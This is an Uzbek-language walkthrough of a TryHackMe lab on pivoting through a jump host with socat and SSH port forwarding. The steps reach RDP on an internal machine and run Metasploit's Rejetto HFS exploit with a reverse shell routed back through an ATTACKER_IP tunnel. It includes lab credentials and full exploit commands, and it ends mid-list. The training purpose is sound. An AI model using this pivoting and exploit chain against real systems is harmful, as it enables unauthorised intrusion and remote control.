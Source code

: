 

## 🧭 Nega port forwarding kerak?

Ba'zan siz SMB (445), RDP (3389), WinRM (5985) kabi portlarga ulana olmaysiz, chunki:

* 🔒 Tarmoqda firewall bor
* 🌐 Tarmoq segmentatsiyalangan
* 🚫 Sizning "Attacker" kompyuteringiz bevosita ko‘p mashinalarga kira olmaydi

✅ Lekin sizda **THMJMP2** kabi oraliq mashinaga (pivot) kirish bor.

---

## 🚇 1. SSH Tunnel (Tunneling) orqali port o‘tkazish

### 🎯 Maqsad:

**THMJMP2 orqali THMIIS ga RDP bilan ulanib, flag olish.**

---

### 🔁 A. Remote Port Forwarding (RDP uchun)

**Muammo:** Siz attacker kompyuteringizdan THMIIS:3389 ga kira olmaysiz.

✅ Lekin **THMJMP2 → THMIIS:3389** ochiq.

### 🔧 Yechim: `socat` bilan tunnel ochish

```cmd
C:\tools\socat\socat.exe TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
```

🧠 Bu: THMJMP2 dagi 13389-portni ochib, unga kelgan so‘rovlarni THMIIS:3389 ga uzatadi.

> Eslatma: 3389 port THMJMP2’da RDP uchun ishlatilgan, shuning uchun siz yangi port (masalan 13389) ochasiz.

---

### 💻 Endi attacker kompyuterdan ulanishingiz mumkin:

```bash
xfreerdp /v:thmjmp2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

✅ THMIIS ichidagi `t1_thomas.moore` foydalanuvchisining Desktop papkasida flag bor.

---

## 🧨 2. Murakkab eksploitlar uchun port forwarding

### 🎯 Maqsad:

**THMDC ustidagi `Rejetto HFS` eksploitni THMJMP2 orqali o‘tkazish.**

### ⚠️ Muammolar:

1. THMDC:80 → attacker’ga to‘g‘ridan-to‘g‘ri ulanmaydi
2. Payload faqat lokal tarmoqdan qabul qilinadi
3. Sizga **web server** + **listener** + **exploit ulanish** kerak

---

### 🔧 Yechim: 3ta portni tunnel qilish

#### THMJMP2 da SSH bilan tunnel oching:

```bash
ssh tunneluser@ATTACKER_IP \
  -R 8888:thmdc.za.tryhackme.com:80 \       # Rejetto portini attackerga yuborish
  -L *:6666:127.0.0.1:6666 \                # SRVPORT → THMJMP2 → attacker
  -L *:7878:127.0.0.1:7878 \                # Reverse shell listener
  -N
```

> `8888`, `6666`, `7878` portlarni o‘zgartirish mumkin (lekin collision bo‘lmasin).

---

### 🚀 Metasploitni sozlash:

```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set payload windows/shell_reverse_tcp

set lhost thmjmp2.za.tryhackme.com
set ReverseListenerBindAddress 127.0.0.1
set lport 7878

set srvhost 127.0.0.1
set srvport 6666

set rhosts 127.0.0.1
set rport 8888

exploit
```

---

### 📦 Bu yerda nima bo‘lyapti?

* RHOST=127.0.0.1:8888 → tunnel orqali THMDC:80
* SRVHOST=127.0.0.1:6666 → THMJMP2 ochgan webserver → attacker localhost
* Reverse shell THMJMP2:7878 → tunnel orqali attackerga qaytadi

✅ Agar hammasi to‘g‘ri bajarilsa, `C:\hfs\flag.txt` dan shell orqali flag olasiz.

---

## 🔗 Xulosa

| Usul     | Maqsad                                             |
| -------- | -------------------------------------------------- |
| `socat`  | Tez va oson port forward qilish                    |
| `ssh -R` | Masofadan attacker kompyuterga portni yuborish     |
| `ssh -L` | attacker kompyuter portini oraliq mashinada ochish |
| `-N`     | Shell so‘ramaslik (faqat tunnel ochish uchun)      |

---

Agar sizga quyidagilar kerak bo‘lsa:

* `socat` sozlash scripti
* `proxychains` bilan dinamik tunneling
* `Metasploit` shablonlari
* `pivoting cheat sheet` PDF formatda

